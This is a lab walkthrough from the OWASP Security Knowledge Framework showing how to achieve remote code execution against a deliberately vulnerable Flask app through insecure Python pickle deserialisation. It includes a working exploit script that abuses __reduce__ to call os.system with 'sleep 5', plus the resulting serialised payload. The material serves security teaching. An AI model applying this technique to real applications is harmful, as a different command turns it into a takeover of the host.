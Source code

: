 # Deserialisation Pickle

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle/1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.

## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle/2.png)

### Step 2

Open the challenge folder, _DES-Pickle_, and open the _exploit.py_ file in a text editor.

```python
import pickle
import os
import base64
import binascii


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

This code creates a Pickle serialized object of _os.system_ call passing _sleep 5_ as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```

_Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used._

### Step 3

Copy the output of previous step, paste it on the text field and click on _Submit Button_.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle/3.png)

Check the Network tab and note the _sync_ request takes approximately 5 seconds to respond. It proves that the _sleep 5_ command was executed successfully and the Remote Code Execution was achieved.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle/4.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
